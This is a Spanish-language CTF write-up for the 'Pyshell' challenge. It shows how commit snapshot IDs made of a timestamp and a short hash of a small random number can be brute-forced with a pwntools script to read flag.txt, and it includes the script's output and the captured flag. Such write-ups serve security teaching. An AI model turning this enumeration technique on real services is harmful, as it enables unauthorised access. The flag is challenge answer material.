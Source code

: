 # Pyshell

Es una shell de python donde estamos limitados a unos pocos comandos, no podemos leer `flag.txt` con el comando `cat`

Al ejecutar `git commit` se crea un snapshot con id `"{tiempo actual en segundos}-{hash sha256 de un numero aleatorio entre 1 y 10000 acortado a 6 bytes}"`
```python
    def _git_commit(self, args):
        if args:
            print("Usage: git commit")
            return

        import time, random, hashlib

        commit_time = int(time.time())
        rand_val = random.randint(1, 10000)
        hash_val = hashlib.sha256(str(rand_val).encode()).hexdigest()[:6]
        commit_id = f"{commit_time}-{hash_val}"

        def snapshot(directory):
            data = {}
            for name, entry in directory.entries.items():
                if isinstance(entry, File):
                    data[name] = (entry.content, "file")
                elif isinstance(entry, Directory):
                    data[name] = snapshot(entry)
                elif isinstance(entry, Symlink):
                    data[name] = (
                        entry.target,
                        "symlink",
                    )
            return data

        commit_snapshot = snapshot(self.fs["/"])
        print(commit_id)
        self.commit_history[commit_id] = commit_snapshot
        print(f"Committed.")
```
El método `_git_snapshot` es una función que muestra el contenido de un commit específico en un sistema de control de versiones

```
    def _git_snapshot(self, args):
        if len(args) != 1:
            print("Usage: git snapshot <commit_id>")
            return

        commit_id = args[0]

        if commit_id not in self.commit_history:
            print("Error: Commit ID not found.")
            return

        def print_snapshot(snapshot, indent=0):
            for name, entry in snapshot.items():
                prefix = " " * indent
                if isinstance(entry, tuple):
                    if entry[1] == "symlink":
                        print(f"{prefix}{name} -> {entry[0]} (Symlink)")
                    else:
                        print(f"{prefix}{name} (File)")
                        print(
                            f"{prefix}---\n{prefix}Content:\n{prefix}{entry[0]}\n{prefix}---"
                        )
                else:
                    print(f"{prefix}{name}/ (Directory)")
                    print_snapshot(entry, indent + 4)

        print(f"Snapshot of commit {commit_id}:")
        print_snapshot(self.commit_history[commit_id])
```

Si agregamos unas lineas para ver lo que contiene un snapshot creado con git commit encontramos que almacena el contenido de flag.txt:
``` python3
        commit_snapshot = snapshot(self.fs["/"])
        # Agregamos aqui estas lineas para depurar
        print(commit_id)                              
        print(commit_snapshot)
        # ----
        self.commit_history[commit_id] = commit_snapshot
        print(f"Committed.")

    def _git_status(self, args):
        if args:
            print("Usage: git status")
            return
```

```
> python3 shell.py
/$ git commit
1743957474-1c63ed
{'flag.txt': ('[REDACTED]', 'file'), 'shell.history': ('git commit', 'file'), '.Trash': {}}
Committed.
/$
```

Lo que debemos hacer es crear un snapshot y tratar de obtener su id mediante fuerza bruta para leer el contenido de flag.txt

## Exploit
``` python3
from pwn import *
import hashlib
import time

# Generate hashes
prehashes = [hashlib.sha256(str(i).encode()).hexdigest()[:6] for i in range(1, 10001)]

# Brute-force
io = remote("challs.breachers.in", 1340)

commit_time = int(time.time())
io.sendlineafter(b"/$ ", b"git commit")

for i,hash_val in enumerate(prehashes):
    payload = b"git snapshot " 
    payload += str(commit_time).encode()
    payload += f"-{hash_val}".encode()
    print(f"{i} -- ", payload)
    io.sendlineafter(b"/$ ", payload)
    line = io.recvline()
    if not b"Error: Commit ID not found" in line:
        break

success(io.recv())
```

```
5351 --  b'git snapshot 1743955172-044c06'
5352 --  b'git snapshot 1743955172-c34ae0'
5353 --  b'git snapshot 1743955172-2a6496'
5354 --  b'git snapshot 1743955172-89be54'
5355 --  b'git snapshot 1743955172-9e25d9'
5356 --  b'git snapshot 1743955172-47570b'
5357 --  b'git snapshot 1743955172-50e65b'
5358 --  b'git snapshot 1743955172-c5d27a'
5359 --  b'git snapshot 1743955172-c702d8'
5360 --  b'git snapshot 1743955172-a68a5f'
5361 --  b'git snapshot 1743955172-38bfb4'
5362 --  b'git snapshot 1743955172-c426ad'
5363 --  b'git snapshot 1743955172-b346a1'
5364 --  b'git snapshot 1743955172-dd5c33'
5365 --  b'git snapshot 1743955172-2c5ae0'
/home/kalcast/venv/lib/python3.12/site-packages/pwnlib/log.py:347: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'success')
[+] flag.txt (File)
    ---
    Content:
    Breach{cr4ck3d_7h3_dummy_5h311_db0192d2e01}
    ---
    shell.history (File)
    ---
    Content:
    git commit
    ---
    .Trash/ (Directory)
    /$
[*] Closed connection to challs.breachers.in port 1340
```

`Breach{cr4ck3d_7h3_dummy_5h311_db0192d2e01}`
